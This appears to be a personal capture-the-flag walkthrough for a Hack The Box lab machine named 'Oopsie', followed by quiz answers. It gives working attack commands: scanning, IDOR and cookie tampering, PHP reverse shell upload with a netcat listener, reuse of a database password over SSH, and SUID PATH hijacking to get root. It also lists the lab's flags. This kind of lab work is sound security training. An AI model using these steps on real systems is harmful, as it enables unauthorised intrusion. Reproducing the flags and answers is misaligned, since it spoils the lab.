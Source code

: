 # Oopsie!

> IP: [10.129.40.54]

## NOTES / STEPS

1. Deploy Machine
2. NMAP
   1. > nmap -sC -sV 10.129.40.54 -oN init_scan
      1. Port 22 -> ssh -> OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
      2. Port 80 -> http -> Apache httpd 2.4.29
3. HTTP
   1. Navigate to website
      1. Scrolling through we see an email with the domain "megacorp.com"
   2. GOBUSTER
      1. > gobuster dir -x php,txt,html -u http://10.129.40.54/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
         1. /images
         2. /themes
         3. /uploads
4. BURPSUITE
   1. Target -> http://10.129.40.54/
      1. CRAWL
         1. /cdn-cgi/login/script.js
5. HTTP Pt.2
   1. Going to the login form we see that there is a guest login
      1. We now have access to the dashboard, however we need admin permissions to be able to access the upload feature
   2. Go to the ACCOUNT's page we see our guest user, and their id, but more importantly we see the url:
      1. "http://10.129.40.54/cdn-cgi/login/admin.php?content=accounts&id=2"
         1. If we change the id value maybe we will get a different user
      2. "http://10.129.40.54/cdn-cgi/login/admin.php?content=accounts&id=1"
         1. SUCCESS! We see admin, with the userID = `34322`
   3. COOKIE
      1. Looking at the session cookie we see
         1. ROLE:guest
         2. USER:2233
      2. So we should be able to change the role and id to get admin privileges
         1. UN:admin
         2. USER:34322
            1. Refresh the page - and we now have access to the file uploader
6. EXPLOIT
   1. Lets try an upload a htb-revshell.php
   2. Browse -> Upload -> success
   3. Now we need to setup a netcat listner
      1. > nc -lnvp 1234
   4. From our previous gobuster scan we know there is an /uploads/ directory
      1. Navigate to /uploads/htb-revshell.php
         1. SUCCESS! We now have a revshell
7. ENUMERATION
   1. Check website (/var/www/html) directories for sensitive information
      1. > cat /var/www/html/cdn-cgi/login/db.php

            ```php
                $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
            ```

            1. In here we see a connection to a database with the username:robert and password:M3g4C0rpUs3r!
            2. Maybe these credentials allow us to escalate 
   2. Check user's home directories
      1. > ls /home
         1. robert
         2. > ls /home/robert
            1. user.txt
8. SSH
   1. Going back to our original nmap scan we saw port 22 -> ssh was open so lets try ssh'ing in as robert with the credentials we found
      1. > ssh robert@10.129.40.54
         1. PW: M3g4C0rpUs3r!
         2. SUCCESS!
9. ENUMERATION PT.2
   1. ROBERT
      1. Now we can get the user.txt flag
         1. > cat user.txt
            1. `f2c74ee8db7983851ab2a96a44eb7981`
   2. LINPEAS
      1. SUID
         1. -rwsr-xr-- 1 root bugtracker 8.6K Jan 25  2020 /usr/bin/bugtracker (Unknown SUID binary!)
         2. We see an unknown binary and it is owned by root and bugtracker group, BUT it has a SUID or stickybit
   3. BUGTRACKER
      1. Lets explore this binary
         1. Run the binary
            1. > bugtracker 
               1. ID: anything
                  1. ERROR: "cat: /root/reports/10: No such file or directory"
                  2. So we can see that cat is being called (without the full path)
10. EXPLOIT
   1. So we know that the CAT command is being ran but it doesn't have the full path specified so we can hijack this and make our own cat binary
   2. Create the binary
      1. > echo '/bin/bash' > cat
   3. Make it executable
      1. > chmod +x cat
   4. Add our user's home directory to the PATH
      1. > export PATH=/home/$USER:$PATH
   5. Now run our bugtracker binary
      1. > bugtracker
      2. > whoami
         1. root
   6. FLAG
      1. Have to use the FULL path of the cat binary now, otherwise we will keep calling our exploited one
      2. > /bin/cat /root/root.txt
         1. FLAG: `af13b0bee69f8a877c3faf667f7beacf`

## QUESTIONS

1. With what kind of tool can intercept web traffic? (I use burpsuite but had to look up the exact software for this question's answer)
   1. `proxy`
2. What is the path to the directory on the webserver that returns a login page?
   1. `/cdn-cgi/login/`
3. What can be modified in Firefox to get access to the upload page?
   1. `cookie`
4. What is the access ID of the admin user?
   1. `34322`
5. On uploading a file, what directory does that file appear in on the server?
   1. `/uploads`
6. What is the file that contains the password that is shared with the robert user?
   1. `db.php`
7. What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?
   1. `find`
8. Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?
   1. `root`
9. What SUID stands for?
   1. `set owner user id`
10. What is the name of the executable being called in an insecure manner?
   1. `cat`
11. Submit user flag
   1. `f2c74ee8db7983851ab2a96a44eb7981`
12. Submit root flag
   1. `af13b0bee69f8a877c3faf667f7beacf`

